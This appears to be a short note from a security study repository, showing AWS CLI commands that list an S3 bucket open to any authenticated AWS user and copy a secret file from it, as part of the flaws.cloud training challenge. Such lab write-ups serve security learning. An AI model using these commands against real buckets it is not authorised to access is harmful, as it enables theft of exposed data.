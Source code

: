 # Bucket listing any aws authenticated user
host 52.218.229.42
aws s3 --region us-west-2 ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud --profile=administrator
aws s3 --region us-west-2 cp s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud/secret-e4443fc.html --profile=administrator .

![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/cd7be9fb-20f3-4876-9e64-20459a6057cb)

